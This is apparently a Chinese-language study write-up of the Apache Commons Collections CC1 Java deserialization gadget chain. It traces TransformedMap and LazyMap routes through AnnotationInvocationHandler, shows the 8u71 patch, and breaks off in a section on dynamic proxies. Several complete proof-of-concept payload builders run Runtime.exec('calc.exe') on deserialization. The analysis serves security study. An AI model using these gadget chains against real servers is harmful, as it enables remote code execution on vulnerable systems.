



### CC链的介绍

>   Apache Commons 当中有⼀个组件叫做 Apache Commons Collections ，主要封装了Java 的 Collection(集合) 相关类对象，它提供了很多强有⼒的数据结构类型并且实现了各种集合工具类。
>
> 作为Apache开源项⽬的重要组件，Commons Collections被⼴泛应⽤于各种Java应⽤的开发，⽽正 是因为在⼤量web应⽤程序中这些类的实现以及⽅法的调⽤，导致了反序列化⽤漏洞的普遍性和严重性。
>
> Apache Commons Collections中有⼀个特殊的接口，其中有⼀个实现该接口的类可以通过调用 Java的反射机制来调用任意函数，叫做InvokerTransformer。

* 简单来说就是利用org.apache.commons.collections中的各种类构成的序列化对象,实现序列化漏洞的利用.由于该库中的各种类极其丰富,有不止一种链条来引发反序列化漏洞.

### P牛的CommonCollections1分析

#### 代码分析

```java
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.TransformedMap;

import java.util.HashMap;
import java.util.Map;

public class CommonCollections1 {
    public static void main(String[] args) throws Exception {
        Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(Runtime.getRuntime()),
                new InvokerTransformer("exec", new Class[]{String.class},
                        new Object[]
                                {"calc.exe"}),
        };

        Transformer transformerChain = new
                ChainedTransformer(transformers);

        Map innerMap = new HashMap();
        Map outerMap = TransformedMap.decorate(innerMap, null,
                transformerChain);
        outerMap.put("test", "xxxx");
    }
}
```

```java
//  Map outerMap = TransformedMap.decorate(innerMap, null, transformerChain);
// 对innerMap进行修饰,当返回对象outerMap put(null,value)时,调用了transformerChain.transform(value)
// 实际上可以看到put内`key = transformKey(key);value = transformValue(value);`实际上调用的类和方法是相同的
// 所以，TransformedMap.decorate(innerMap, transformerChain, null);同样可以触发漏洞
public static Map decorate(Map map, Transformer keyTransformer, Transformer valueTransformer) {
    return new TransformedMap(map, keyTransformer, valueTransformer);
}

protected TransformedMap(Map map, Transformer keyTransformer, Transformer valueTransformer) {
    super(map);
    this.keyTransformer = keyTransformer;
    this.valueTransformer = valueTransformer;
}

public Object put(Object key, Object value) {
    key = transformKey(key);
    value = transformValue(value);  
    return getMap().put(key, value);
}

protected Object transformKey(Object object) {
    if (keyTransformer == null) {
        return object;  
    }
    return keyTransformer.transform(object);
}

protected Object transformValue(Object object) {
    if (valueTransformer == null) {
        return object;
    }
    return valueTransformer.transform(object);
}
```

```java
// 来到了transformerChain.transform(value)
// Transformer transformerChain = new ChainedTransformer(transformers);
// transformerChain.transform(value)遍历调用了数组transformers中的元素的方法transform
public class ChainedTransformer implements Transformer, Serializable {
    // ......
    public ChainedTransformer(Transformer[] transformers) {
        super();
        iTransformers = transformers;
    }
    // Transformer是一个接口,只有一个待实现的方法transform
    public Object transform(Object object) {
            for (int i = 0; i < iTransformers.length; i++) {
                object = iTransformers[i].transform(object);
            }
            return object;
        }
    // ......
}
```

```java
// 再来到数组transformers
/* Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(Runtime.getRuntime()),
                new InvokerTransformer("exec", new Class[]{String.class},
                        new Object[]
                                {"calc.exe"}),
        };*/
// new ConstantTransformer(Runtime.getRuntime())
public class ConstantTransformer implements Transformer, Serializable {
    // ...
     public ConstantTransformer(Object constantToReturn) {
        super();
        iConstant = constantToReturn;
    }
    public Object transform(Object input) {
        return iConstant;
    }
    // ...
}
// new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"calc.exe"})
public class InvokerTransformer implements Transformer, Serializable {
    // ...
    public InvokerTransformer(String methodName, Class[] paramTypes, Object[] args) {
        super();
        iMethodName = methodName;
        iParamTypes = paramTypes;
        iArgs = args;
    }
    public Object transform(Object input) {
        if (input == null) {
            return null;
        }
        try {
            Class cls = input.getClass();
            Method method = cls.getMethod(iMethodName, iParamTypes);
            return method.invoke(input, iArgs);
                
        } catch (NoSuchMethodException ex) {
            throw new FunctorException("InvokerTransformer: The method '" + iMethodName + "' on '" + input.getClass() + "' does not exist");
        } catch (IllegalAccessException ex) {
            throw new FunctorException("InvokerTransformer: The method '" + iMethodName + "' on '" + input.getClass() + "' cannot be accessed");
        } catch (InvocationTargetException ex) {
            throw new FunctorException("InvokerTransformer: The method '" + iMethodName + "' on '" + input.getClass() + "' threw an exception", ex);
        }
    }
    // ...
}
```

```java
// 所以key="test";transformerChain.transform(value)实际上执行了什么
// transformers[0].transform("test")
object = (Object) Runtime.getRuntime();

// transformers[1].transform(object)
Class cls = object.getClass();
Method method = cls.getMethod("exec", new Class[]{String.class});
method.invoke(object, new Object[]{"calc.exe"});
```

#### 对于TransformedMap的理解

在P牛的分析文章里，看到他对于`Map outerMap = TransformedMap.decorate(innerMap, null, transformerChain);`的理解是返回了一个Map的装饰器，在查询相关资料之后，感觉理解了这个装饰器的概念，有助于我们理解上面的反序列化利用链。

> `TransformedMap` 是 Apache Commons Collections 库中的一个类，属于 `org.apache.commons.collections4.map` 包。它用于创建一个装饰器（decorator），在将键或值存储到底层映射之前和从底层映射读取之后，对键或值进行转换。
>
> `TransformedMap` 类的主要目的是在**不修改底层数据结构的情况下**，**提供一个在插入和访问数据时进行转换的机制**。这在某些情况下非常有用，例如你需要确保所有存储的值都经过某种处理或验证。

```java
import org.apache.commons.collections4.Transformer;
import org.apache.commons.collections4.map.TransformedMap;

import java.util.HashMap;
import java.util.Map;

public class TransformedMapExample {
    public static void main(String[] args) {
        // 创建一个普通的 HashMap
        Map<String, String> originalMap = new HashMap<>();

        // 创建键和值的转换器，Transformer是只有一个抽象方法的接口，可以采取lambda表达式实现
        // key -> "key-" + key等价于
        /*
        Transformer<String, String> keyTransformer = new Transformer<String, String>() {
            @Override
            public String transform(String key) {
                return "key-" + key;
            }
        };

        Transformer<String, String> valueTransformer = new Transformer<String, String>() {
            @Override
            public String transform(String value) {
                return "value-" + value;
            }
        };
        */
        Transformer<String, String> keyTransformer = key -> "key-" + key;
        Transformer<String, String> valueTransformer = value -> "value-" + value;

        // 使用 TransformedMap 装饰原始的 Map
        // 执行了Transformer实现类的transform方法
        Map<String, String> transformedMap = TransformedMap.transformingMap(
                originalMap, keyTransformer, valueTransformer);

        // 插入数据
        transformedMap.put("1", "one");
        transformedMap.put("2", "two");

        // 打印 transformedMap
        System.out.println("Transformed Map: " + transformedMap);

        // 打印 originalMap
        System.out.println("Original Map: " + originalMap);

        // 访问数据
        System.out.println("Value for key '1': " + transformedMap.get("1"));
    }
}
```

所以现在理解`Map outerMap = TransformedMap.decorate(innerMap, null, transformerChain);`，innerMap是我们要装饰的原始innerMap，而transformerChain是Transformer实现类，我们在进行outerMap.put("test", "xxxx");时调用它的transform方法。

#### 不是真正POC的原因

先前例子中,我们手工执行outerMap.put("test", "xxxx")触发了反序列化漏洞,但是在正常的反序列化漏洞利用场景中,序列化对象只是一个类,即:

```java
Transformer[] transformers = new Transformer[]{
        new ConstantTransformer(Runtime.getRuntime()),
        new InvokerTransformer("exec", new Class[]{String.class},
                new Object[]
                        {"calc.exe"}),
};

Transformer transformerChain = new
        ChainedTransformer(transformers);

Map innerMap = new HashMap();
Map outerMap = TransformedMap.decorate(innerMap, null,
        transformerChain);

// 序列化对象
try (FileOutputStream fos = new FileOutputStream("outerMap.ser");
             ObjectOutputStream oos = new ObjectOutputStream(fos)) {
    oos.writeObject(outerMap);
    System.out.println("Person 对象已经被序列化到 outerMap.ser 文件");
} catch (IOException e) {
    e.printStackTrace();
}
```

此时,我们虽然得到了outerMap的序列化对象,但是当其被反序列化时,如果readObject方法中没有进行outerMap.put或者它调用transformerChain.transform(value)的操作,其也不可能触发反序列化漏洞

### CommonCollections1

* CommonCollections1的依赖为commons-collections:3.1

```xml
<dependencies>
        <dependency>
            <groupId>commons-collections</groupId>
            <artifactId>commons-collections</artifactId>
            <version>3.1</version>
        </dependency>
    </dependencies>
```

* 对于java版本的要求是8u71以前，下文版本为8u66

#### 对于利用链的大致梳理

先把最终的poc代码展示一下，后面分析如何一步步改进得到该poc

```java
public class CommonCollections1 {
    public static void main(String[] args) throws Exception {
        Transformer[] transformers = new Transformer[] {
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod", new Class[] { String.class,
                        Class[].class }, new
                        Object[] { "getRuntime",
                        new Class[0] }),
                new InvokerTransformer("invoke", new Class[] { Object.class,
                        Object[].class }, new
                        Object[] { null, new Object[0] }),
                new InvokerTransformer("exec", new Class[] { String.class },
                        new String[] {
                                "calc.exe" }),
        };

        Transformer transformerChain = new
                ChainedTransformer(transformers);

        Map innerMap = new HashMap();

        // new
        innerMap.put("value", "xxxx");
        // new

        Map outerMap = TransformedMap.decorate(innerMap, null,
                transformerChain);

        // delete
        // outerMap.put("test", "xxxx");
        // delete

        // new
        Class clazz =
                Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        Constructor construct = clazz.getDeclaredConstructor(Class.class, Map.class);
        construct.setAccessible(true);
        Object obj = construct.newInstance(Retention.class, outerMap);

        ByteArrayOutputStream barr = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(barr);
        oos.writeObject(obj);
        oos.close();

        System.out.println(barr);
        ObjectInputStream ois = new ObjectInputStream(new ByteArrayInputStream(barr.toByteArray()));
        Object o = ois.readObject();
    }
}
```

前文的例子中的序列化对象缺少一个outerMap.put来触发漏洞，自然地，我们继续地去寻找类，在其readObject中能够进行outerMap.put操作，这个类就sun.reflect.annotation.AnnotationInvocationHandler，注意这个类是Java的内部实现类，位于sun.reflect.annotation包下，所以它在Java的不同版本下实现可能是不同的，所以现在使用到AnnotationInvocationHandler的这条链只能在java8u71之前触发漏洞。

看一下AnnotationInvocationHandler的readobject方法

```java
private void readObject(java.io.ObjectInputStream s)
        throws java.io.IOException, ClassNotFoundException {
        s.defaultReadObject();

        // Check to make sure that types have not evolved incompatibly

        AnnotationType annotationType = null;
        try {
            annotationType = AnnotationType.getInstance(type);
        } catch(IllegalArgumentException e) {
            // Class is no longer an annotation type; time to punch out
            throw new java.io.InvalidObjectException("Non-annotation type in annotation serial stream");
        }

        Map<String, Class<?>> memberTypes = annotationType.memberTypes();

        // If there are annotation members without values, that
        // situation is handled by the invoke method.
        for (Map.Entry<String, Object> memberValue : memberValues.entrySet()) {
            String name = memberValue.getKey();
            Class<?> memberType = memberTypes.get(name);
            if (memberType != null) {  // i.e. member still exists
                Object value = memberValue.getValue();
                if (!(memberType.isInstance(value) ||
                      value instanceof ExceptionProxy)) {
                    memberValue.setValue(
                        new AnnotationTypeMismatchExceptionProxy(
                            value.getClass() + "[" + value + "]").setMember(
                                annotationType.members().get(name)));
                }
            }
        }
    }
```

这里就直接指出触发关键所在了，即 `memberValue.setValue`，`memberValue`是该`AnnotationInvocationHandler`的属性`memberValues`的元素，让我们看看这个属性的具体情况

```java
private final Map<String, Object> memberValues;

AnnotationInvocationHandler(Class<? extends Annotation> type, Map<String, Object> memberValues) {
    Class<?>[] superInterfaces = type.getInterfaces();
    if (!type.isAnnotation() ||
        superInterfaces.length != 1 ||
        superInterfaces[0] != java.lang.annotation.Annotation.class)
        throw new AnnotationFormatError("Attempt to create proxy for a non-annotation type.");
    this.type = type;
    this.memberValues = memberValues;
}
```

`memeberVakues`是Map类型，在new`AnnotationInvocationHandler`时，传入一个`Map<String, Object>`类型的参数即可给这个属性赋值，自然地联想到我们之前相反序列化的对象也是Map的子类，它是否可以通过setValue触发我们所希望的敏感操作呢？

我们接着看看setValue到底是运行了哪些代码，要弄清这个问题，先要搞明白`Map.Entry<String, Object> memberValue : memberValues.entrySet()`中的`memberValues.entrySet()`，`memberValues`实际上是我们传入的`TransformedMap`类的对象，它没有实现`entrySet()`方法，向其父类`AbstractInputCheckedMapDecorator`追溯

```java
// ......
protected boolean isSetValueChecking() {
        return true;
    }

// new了一个子类的对象
public Set entrySet() {
        if (isSetValueChecking()) {
            return new EntrySet(map.entrySet(), this);
        } else {
            return map.entrySet();
        }
}

// 使用增强型 for 循环遍历一个 Set<Map.Entry<String, Object>> 时
// 1.调用 iterator 方法：增强型 for 循环会首先调用 Set 接口的 iterator() 方法来获取一个 Iterator 对象。
// 2.调用 hasNext 和 next 方法：然后在每次迭代中，会依次调用 Iterator 对象的 hasNext() 方法检查是否还有元素，调用 next() 方法获取下一个元素。
// 这里的Iterator方法又new了一个新的子类对象
static class EntrySet extends AbstractSetDecorator {
        
        /** The parent map */
        private final AbstractInputCheckedMapDecorator parent;

        protected EntrySet(Set set, AbstractInputCheckedMapDecorator parent) {
            super(set);
            this.parent = parent;
        }

        public Iterator iterator() {
            return new EntrySetIterator(collection.iterator(), parent);
        }
        
       // ......
    }

// 继续追溯，在next()方法中返回的是一个子类对象
static class EntrySetIterator extends AbstractIteratorDecorator {
        
        /** The parent map */
        private final AbstractInputCheckedMapDecorator parent;
        
        protected EntrySetIterator(Iterator iterator, AbstractInputCheckedMapDecorator parent) {
            super(iterator);
            this.parent = parent;
        }
        
        public Object next() {
            Map.Entry entry = (Map.Entry) iterator.next();
            return new MapEntry(entry, parent);
        }
    }


// 继续追溯，memberValues.entrySet()最终返回的就是MapEntry类的对象
static class MapEntry extends AbstractMapEntryDecorator {

        /** The parent map */
        private final AbstractInputCheckedMapDecorator parent;

        protected MapEntry(Map.Entry entry, AbstractInputCheckedMapDecorator parent) {
            super(entry);
            this.parent = parent;
        }
		
        // memberValue.setValue执行的即是MapEntry类的SetValue方法
        // 这里的parent一步步追溯下来，就是类本身，所以它执行的checkSetValue是该类的实现该类的TransformedMap对象的checkSetValue方法
        public Object setValue(Object value) {
            value = parent.checkSetValue(value);
            return entry.setValue(value);
        }
    }
// ......
```

让我们回顾TransformedMap的checkSetValue方法，再回顾之前的内容，可以发现`valueTransformer.transform(value)`是可以触发漏洞的。

```java
protected Object checkSetValue(Object value) {
        return valueTransformer.transform(value);
    }
```

那我们总结下现在可以写出poc代码。

```java
public static void main(String[] args) throws Exception {
        Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(Runtime.getRuntime()),
                new InvokerTransformer("exec", new Class[]{String.class},
                        new Object[]
                                {"calc.exe"}),
        };

        Transformer transformerChain = new
                ChainedTransformer(transformers);

        Map innerMap = new HashMap();
        // new
        // 遍历Map的元素时触发memberValue.setValue
        innerMap.put("test", "xxxx");
        // new
        Map outerMap = TransformedMap.decorate(innerMap, null,
                transformerChain);
    
        Class clazz = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        Constructor construct = clazz.getDeclaredConstructor(Class.class, Map.class);
        construct.setAccessible(true);
        Object obj = construct.newInstance(Retention.class, outerMap);
    
    	ByteArrayOutputStream barr = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(barr);
        oos.writeObject(obj);
        oos.close();

        System.out.println(barr);
        ObjectInputStream ois = new ObjectInputStream(new ByteArrayInputStream(barr.toByteArray()));
        Object o = ois.readObject();
    }
```

这里还需解释一点，对于`AnnotationInvocationHandler`的获取采取的是反射的方式，而不是直接new，这是因为该类为default。

运行现在的poc，发现它报错了，原因是java.lang.Runtime无法序列化


java中的类要想反序列化，必须满足：

* 实现 java.io.Serializable 接口
* 所有属性必须是可序列化的。如果有一个属性不是可序列化的，则该属性必须注明是短暂的

所以我们不能直接`new ConstantTransformer(Runtime.getRuntime())`，还是借助反射来获取Runtime.getRuntime()，所以我们将poc更改为，这里Runtime.class是Class对象，可以序列化

```java
public static void main(String[] args) throws Exception {
         Transformer[] transformers = new Transformer[] {
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod", new Class[] { String.class,
                        Class[].class }, new
                        Object[] { "getRuntime",
                        new Class[0] }),
                new InvokerTransformer("invoke", new Class[] { Object.class,
                        Object[].class }, new
                        Object[] { null, new Object[0] }),
                new InvokerTransformer("exec", new Class[] { String.class },
                        new String[] {
                                "calc.exe" }),
        };
        // ......
    }
```

这里分析一下反射获取Runtime对象的过程

```java
Class cls = Runtime.class.getClass();
Method method = cls.getMethod("getMethod", new Class[] { String.class,
                        Class[].class });
Object object = method.invoke(Runtime.class, new Object[]{"getRuntime",
                        new Class[0] });
// 上面的代码等同于Object object = Runtime.class.getMethod("getRuntime", new Class[0])，object作为后面的input

Class cls = input.getClass();
Method method = cls.getMethod("invoke", new Class[] { Object.class,
                        Object[].class });
Object object = method.invoke(input, new Object[]{null, new Object[0]});
// 等同于object = input.invoke(null, new Object[0])，getRuntime方法是静态的，所以传递的参数为(null, new Object[0])

Class cls = input.getClass();
Method method = cls.getMethod("exec", new Class[] { String.class });
Object object = method.invoke(input, new String[] {"calc.exe"});
// 等同于object = input.exec("calc.exe")
```

继续运行改进后的poc，发现没有异常，但是也没有弹出计算机，对比现在poc和最终poc，发现只有一处不同`innerMap.put("test", "xxxx");`和`innerMap.put("value", "xxxx");`，这一点不同是如何影响我们的poc的，我们需要在调试中找到答案。

#### 尝试分析innerMap.put("value", "xxxx");

我们在调试最终的poc，在InvokerTransformer类的transform处打下断点，查看调用栈：



从AnnotationInvocationHandler的readObject到最终的InvokerTransformer类的transform，大部分都已经在前面分析过了，我们需要关注的是从readObject到setValue的过程。我们在这两个方法处打上断点，调试分析它的代码逻辑

再回头看看AnnotationInvocationHandler的readObject

```java
    private void readObject(java.io.ObjectInputStream s)
        throws java.io.IOException, ClassNotFoundException {
        s.defaultReadObject();

        // Check to make sure that types have not evolved incompatibly

        AnnotationType annotationType = null;
        try {
            annotationType = AnnotationType.getInstance(type);
        } catch(IllegalArgumentException e) {
            // Class is no longer an annotation type; time to punch out
            throw new java.io.InvalidObjectException("Non-annotation type in annotation serial stream");
        }

        Map<String, Class<?>> memberTypes = annotationType.memberTypes();

        // If there are annotation members without values, that
        // situation is handled by the invoke method.
        for (Map.Entry<String, Object> memberValue : memberValues.entrySet()) {
            String name = memberValue.getKey();
            Class<?> memberType = memberTypes.get(name);
            if (memberType != null) {  // i.e. member still exists
                Object value = memberValue.getValue();
                if (!(memberType.isInstance(value) ||
                      value instanceof ExceptionProxy)) {
                    memberValue.setValue(
                        new AnnotationTypeMismatchExceptionProxy(
                            value.getClass() + "[" + value + "]").setMember(
                                annotationType.members().get(name)));
                }
            }
        }
    }
```

按照前面的分析过程，只要执行到 `memberValue.setValue`，即可触发漏洞，没有触发漏洞，可能是代码根本没有执行到这里，查看整个方法，在执行`memberValue.setValue`之前有两个if，我们在这两个if处打上断点，发现memberType为null，这就是我们没有触发漏洞的原因。



我们继续对memberType进行追溯

```java
AnnotationType annotationType = null;
// type:interface java.lang.annotation.Retention
annotationType = AnnotationType.getInstance(type);
Map<String, Class<?>> memberTypes = annotationType.memberTypes();
Class<?> memberType = memberTypes.get(name);
if (memberType != null)
```

```java
// annotationType = AnnotationType.getInstance(type);
public static AnnotationType getInstance(
    Class<? extends Annotation> annotationClass)
{
    JavaLangAccess jla = sun.misc.SharedSecrets.getJavaLangAccess();
    AnnotationType result = jla.getAnnotationType(annotationClass); // volatile read
    if (result == null) {
        result = new AnnotationType(annotationClass);
        // try to CAS the AnnotationType: null -> result
        if (!jla.casAnnotationType(annotationClass, null, result)) {
            // somebody was quicker -> read it's result
            result = jla.getAnnotationType(annotationClass);
            assert result != null;
        }
    }

    return result;
}
```

这里继续往下分析遇到了瓶颈，`JavaLangAccess jla = sun.misc.SharedSecrets.getJavaLangAccess();`获取的对象，在程序中无法继续追溯了，查询了相关资料了解到`javaLangAccess` 的赋值通常在 JVM 引导过程中完成，而非应用程序代码调用赋值。

无法继续分析，这里直接给出前辈们探索出的答案，为了使memberType不为null：

1. sun.reflect.annotation.AnnotationInvocationHandler 构造函数的第一个参数必须是 Annotation的子类，且其中必须含有至少一个方法，假设方法名是X
2. 被 TransformedMap.decorate 修饰的Map中必须有一个键名为X的元素

所以，这也解释了为什么前面用到 Retention.class ，因为Retention有一个方法，名为value；所以，为了再满足第二个条件，需要给Map中放入一个Key是value的元素：

```java
innerMap.put("value", "xxxx");
```

#### 8u71之后无法利用的原因

8u71后的AnnotationInvocationHandler 的readObject方法做了修改

```diff
--- a/src/share/classes/sun/reflect/annotation/AnnotationInvocationHandler.java	Tue Dec 01 08:58:28 2015 -0500
+++ b/src/share/classes/sun/reflect/annotation/AnnotationInvocationHandler.java	Tue Dec 01 22:38:16 2015 +0000
@@ -25,6 +25,7 @@
 
 package sun.reflect.annotation;
 
+import java.io.ObjectInputStream;
 import java.lang.annotation.*;
 import java.lang.reflect.*;
 import java.io.Serializable;
@@ -425,35 +426,72 @@
 
     private void readObject(java.io.ObjectInputStream s)
         throws java.io.IOException, ClassNotFoundException {
-        s.defaultReadObject();
+        ObjectInputStream.GetField fields = s.readFields();
+
+        @SuppressWarnings("unchecked")
+        Class<? extends Annotation> t = (Class<? extends Annotation>)fields.get("type", null);
+        @SuppressWarnings("unchecked")
+        Map<String, Object> streamVals = (Map<String, Object>)fields.get("memberValues", null);
 
         // Check to make sure that types have not evolved incompatibly
 
         AnnotationType annotationType = null;
         try {
-            annotationType = AnnotationType.getInstance(type);
+            annotationType = AnnotationType.getInstance(t);
         } catch(IllegalArgumentException e) {
             // Class is no longer an annotation type; time to punch out
             throw new java.io.InvalidObjectException("Non-annotation type in annotation serial stream");
         }
 
         Map<String, Class<?>> memberTypes = annotationType.memberTypes();
+        // consistent with runtime Map type
+        Map<String, Object> mv = new LinkedHashMap<>();
 
         // If there are annotation members without values, that
         // situation is handled by the invoke method.
-        for (Map.Entry<String, Object> memberValue : memberValues.entrySet()) {
+        for (Map.Entry<String, Object> memberValue : streamVals.entrySet()) {
             String name = memberValue.getKey();
+            Object value = null;
             Class<?> memberType = memberTypes.get(name);
             if (memberType != null) {  // i.e. member still exists
-                Object value = memberValue.getValue();
+                value = memberValue.getValue();
                 if (!(memberType.isInstance(value) ||
                       value instanceof ExceptionProxy)) {
-                    memberValue.setValue(
-                        new AnnotationTypeMismatchExceptionProxy(
+                    value = new AnnotationTypeMismatchExceptionProxy(
                             value.getClass() + "[" + value + "]").setMember(
-                                annotationType.members().get(name)));
+                                annotationType.members().get(name));
                 }
             }
+            mv.put(name, value);
+        }
+
+        UnsafeAccessor.setType(this, t);
+        UnsafeAccessor.setMemberValues(this, mv);
+    }
+
+    private static class UnsafeAccessor {
+        private static final sun.misc.Unsafe unsafe;
+        private static final long typeOffset;
+        private static final long memberValuesOffset;
+        static {
+            try {
+                unsafe = sun.misc.Unsafe.getUnsafe();
+                typeOffset = unsafe.objectFieldOffset
+                        (AnnotationInvocationHandler.class.getDeclaredField("type"));
+                memberValuesOffset = unsafe.objectFieldOffset
+                        (AnnotationInvocationHandler.class.getDeclaredField("memberValues"));
+            } catch (Exception ex) {
+                throw new ExceptionInInitializerError(ex);
+            }
+        }
+        static void setType(AnnotationInvocationHandler o,
+                            Class<? extends Annotation> type) {
+            unsafe.putObject(o, typeOffset, type);
+        }
+
+        static void setMemberValues(AnnotationInvocationHandler o,
+                                    Map<String, Object> memberValues) {
+            unsafe.putObject(o, memberValuesOffset, memberValues);
         }
     }
 }
```

可以看到我们本来触发漏洞的memberValue.setValue被删除了，而且注意到`Map<String, Object> mv = new LinkedHashMap<>();/*......*/mv.put(name, value);`不再直接 使用反序列化得到的Map对象，而是新建了一个LinkedHashMap对象，并将原来的键值添加进去，我们精心构造的Map不再执行一些操作，自然也不会触发漏洞。

#### ysoserial的利用链分析

这里先给出ysoserial构造的poc，ysoserial的代码将一些操作封装成了函数，为了方便分析，这里贴出它们展开后的代码

```java
public class YsoCC1 {
    public static void main(String[] args) throws Exception {
        Transformer[] transformers = new Transformer[] {
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod", new Class[] {
                        String.class,
                        Class[].class }, new Object[] { "getRuntime",
                        new Class[0] }),
                new InvokerTransformer("invoke", new Class[] {
                        Object.class,
                        Object[].class }, new Object[] { null, new
                        Object[0] }),
                new InvokerTransformer("exec", new Class[] { String.class
                },
                        new String[] { "calc.exe" }),
        };
        Transformer transformerChain = new
                ChainedTransformer(transformers);
        Map innerMap = new HashMap();
        Map outerMap = LazyMap.decorate(innerMap, transformerChain);
        Class clazz =
                Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        Constructor construct = clazz.getDeclaredConstructor(Class.class,
                Map.class);
        construct.setAccessible(true);
        InvocationHandler handler = (InvocationHandler)
                construct.newInstance(Retention.class, outerMap);
        Map proxyMap = (Map)
                Proxy.newProxyInstance(Map.class.getClassLoader(), new Class[] {Map.class},
                        handler);
        handler = (InvocationHandler)
                construct.newInstance(Retention.class, proxyMap);
        ByteArrayOutputStream barr = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(barr);
        oos.writeObject(handler);
        oos.close();
        System.out.println(barr);
        ObjectInputStream ois = new ObjectInputStream(new
                ByteArrayInputStream(barr.toByteArray()));
        Object o = (Object)ois.readObject();
    }
}
```

这与我们之前的poc代码有一些不同，主要是两点：

* 没有发现我们熟悉的`TransformedMap.decorate`，而有一个`LazyMap.decorate`
* 多了两行代码` Map proxyMap = (Map) Proxy.newProxyInstance(Map.class.getClassLoader(), new Class[] {Map.class}, handler);handler = (InvocationHandler) construct.newInstance(Retention.class, proxyMap);`

让我们一点一点来分析

##### LazyMap如何代替TransformedMap触发漏洞

```java
// LazyMap.decorate(innerMap, transformerChain);返回的对象
public static Map decorate(Map map, Transformer factory) {
        return new LazyMap(map, factory);
}

protected LazyMap(Map map, Transformer factory) {
        super(map);
        if (factory == null) {
            throw new IllegalArgumentException("Factory must not be null");
        }
        this.factory = factory;

```

注意到这个类的get方法，传入的key不存在时，其会调用Transfomer类的transform方法。

```java
public Object get(Object key) {
    // create value for key if key is not currently in the map
    if (map.containsKey(key) == false) {
        Object value = factory.transform(key);
        map.put(key, value);
        return value;
    }
    return map.get(key);
}
```

但是会根据前面分析的AnnotationInvacationHandler的readObject方法可知，其并没有调用到Map的get方法，查看AnnotationInvocationHandler的invoke方法，发现其调用了Map的get

```java
    public Object invoke(Object proxy, Method method, Object[] args) {
        String member = method.getName();
        Class<?>[] paramTypes = method.getParameterTypes();

        // Handle Object and Annotation methods
        if (member.equals("equals") && paramTypes.length == 1 &&
            paramTypes[0] == Object.class)
            return equalsImpl(args[0]);
        if (paramTypes.length != 0)
            throw new AssertionError("Too many parameters for an annotation method");

        switch(member) {
        case "toString":
            return toStringImpl();
        case "hashCode":
            return hashCodeImpl();
        case "annotationType":
            return type;
        }

        // Handle annotation member accessors
        Object result = memberValues.get(member);

        if (result == null)
            throw new IncompleteAnnotationException(type, member);

        if (result instanceof ExceptionProxy)
            throw ((ExceptionProxy) result).generateException();

        if (result.getClass().isArray() && Array.getLength(result) != 0)
            result = cloneArray(result);

        return result;
    }
```

##### AnnotationInvocationHandler#invoke的特殊性

java是一门静态语言，相比于PHP、Python等动态语言，它的灵活性不足，不允许动态添加新代码、修改现有代码或删除代码，但是依靠动态代理，java可以实现动态调用代码。

```php
class MyClass
{
    private $data = array();

    public function __call($name, $arguments)
    {
        // 检查方法名是否以 "get" 或 "set" 开头
        if (substr($name, 0, 3) == 'get') {
            $key = substr($name, 3);
            return $this->data[$key];
        } elseif (substr($name, 0, 3) == 'set') {
            $key = substr($name, 3);
            $this->data[$key] = $arguments[0];
            return $this;
        } else {
            throw new Exception("Undefined method '$name'");
        }
    }
}

$obj = new MyClass();
$obj->setName('John Doe');
echo $obj->getName(); // Output: John Doe
```

